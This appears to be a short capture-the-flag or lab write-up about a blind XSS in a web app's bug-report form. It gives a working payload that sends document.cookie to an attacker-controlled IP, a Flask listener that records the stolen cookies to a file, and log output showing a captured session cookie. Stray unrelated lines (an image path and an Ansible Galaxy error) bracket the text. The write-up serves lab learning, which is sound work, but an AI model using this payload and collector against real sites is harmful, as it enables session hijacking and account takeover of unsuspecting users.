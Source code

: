 # Blind XSS
I was able to trigger some blind XSS in the report a bug section. Using the following payload
```shell
`<img src="x" onerror="fetch('http://10.10.14.12:8000/log?cookie=' + document.cookie)">`
```
I was able to get the cookie to my server which I setup using the following:
#### App.py
```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def index():
    return "Hello, world!"

@app.route('/log', methods=['GET'])
def log():
    data = request.args.get('cookie')
    print(f"Received cookie: {data}")
    with open("cookies.txt", "a") as file:
        file.write(f"{data}\n")
    return "Data received"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```
And then Ran it:
```shell
python3 app.py
```
Then once that was up and running I executed the payload
![[Pasted image 20240428112707.png]]

## Obtaining the Cookie
```shell
└─$ python3 app.py
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://192.168.17.128:8000
Press CTRL+C to quit
10.10.11.15 - - [28/Apr/2024 05:04:45] "GET /test HTTP/1.1" 404 -
Received cookie: user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4

```


[WARNING]: - file.tar was NOT installed successfully: Unknown error when attempting to call Galaxy at 'https://galaxy.ansible.com/api/':